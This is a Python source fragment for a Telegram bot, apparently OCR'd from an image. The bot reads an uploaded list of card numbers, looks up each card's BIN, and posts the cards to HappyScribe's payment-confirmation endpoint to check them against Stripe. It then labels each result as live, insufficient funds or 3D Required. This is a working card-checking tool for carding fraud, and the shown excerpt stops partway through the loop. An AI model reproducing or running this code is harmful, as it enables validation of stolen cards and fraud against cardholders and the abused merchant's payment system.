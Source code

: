     'transcription_id': None,
    'plan': 'basic_2023_05_01',
    'order_id': None,
    'recurrence_interval': 'month',
    'extra_plan_hours': None,
}

	req = requests.post('https://www.happyscribe.com/api/iv1/confirm_payment', cookies=cookies, headers=headers, json=json_data)
	print(req.json()['error'])
	if 'Retry later' in req.text:
		ms = 'risk'
		return ms
		time.sleep(15)
	try:
		msg = req.json()['error']
		print(ccx,'¦',msg)
		if "Your card has insufficient funds." in req.json()['error']:
			ms = 'Your card has insufficient funds.'
			return ms
		else:
			ms = req.json()['error']
			return ms
	except:
		if 'requires_action' in req.json():
			ms = '3D Required'
			return ms
		else:
			return req.json()
@bot.message_handler(commands=["start"])
def start(message):
	bot.reply_to(message,'''ابعت الكومبه وانجز عايز افحص 

BY :   @Y_Y_2_4''')
@bot.message_handler(content_types=["document"])
def main(message):
	dd = 0
	rs = 0
	rsk = 0
	cek = 0
	nop = 0
	live = 0
	ch = 0
	ko = (bot.reply_to(message,"𝙿𝙻𝙴𝙰𝚂𝙴 𝚆𝙰𝙸𝚃 𝚆𝙷𝙸𝙻𝙴 𝚈𝙾𝚄𝚁 𝙲𝙰𝚁𝙳𝚂 𝙰𝚁𝙴 𝙱𝙴𝙸𝙽𝙶 𝙲𝙷𝙴𝙲𝙺 𝙰𝚃 𝚃𝙷𝙴 𝙶𝙰𝚃𝙴𝚆𝙰𝚈 stripe charge 𝙱𝙾𝚃𝙱𝚈  @Y_Y_2_4").message_id)
	ee = bot.download_file(bot.get_file(message.document.file_id).file_path)
	with open("combo-sjad.txt", "wb") as w:
		w.write(ee)
	try:
		with open("combo-sjad.txt", 'r') as file:
			lino = file.readlines()
			total = len(lino)
			for cc in lino:
				try:
					url = ('https://lookup.binlist.net/'+cc[:6])
					data = requests.get(url).json()
					